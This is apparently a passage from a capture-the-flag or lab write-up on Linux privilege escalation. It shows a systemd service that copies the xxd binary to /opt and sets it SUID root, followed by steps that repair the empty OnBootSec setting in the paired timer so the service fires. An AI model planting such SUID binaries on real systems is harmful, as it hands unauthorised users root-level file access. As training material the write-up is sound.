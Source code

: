 
2. Analyzing the Systemd Service
```bash
cat /etc/systemd/system/exploit.service 

[Unit]
Description=Exploit Service

[Service]
Type=oneshot
ExecStart=/bin/bash -c "/bin/cp /usr/bin/xxd /opt/xxd && /bin/chmod +sx /opt/xxd"
```

It copies `xxd` binary to `/opt/xxd` and makes it SUID root!.


3. Fixing the Broken Timer

Problem:
```bash
sudo /bin/systemctl start exploit.timer

# Failed to start exploit.timer: Unit exploit.timer has a bad unit file setting.
```

Diagnosis:
Failed to start becouse the set timer in exploit.timer is missing some unit.

```bash
cat /etc/systemd/system/exploit.timer

[Unit]
Description=Exploit Timer

[Timer]
OnBootSec=

[Install]
WantedBy=timers.target
```
The timer file had incomplete configuration `OnBootSec=` was empty.

Solution:

Fixed the timer configuration:
```bash
nano /etc/systemd/system/exploit.timer
```
Updated Content:
```ini
[Unit]
Description=Exploit Timer

[Timer]
OnBootSec=0
OnUnitActiveSec=0

[Install]
WantedBy=timers.target
```
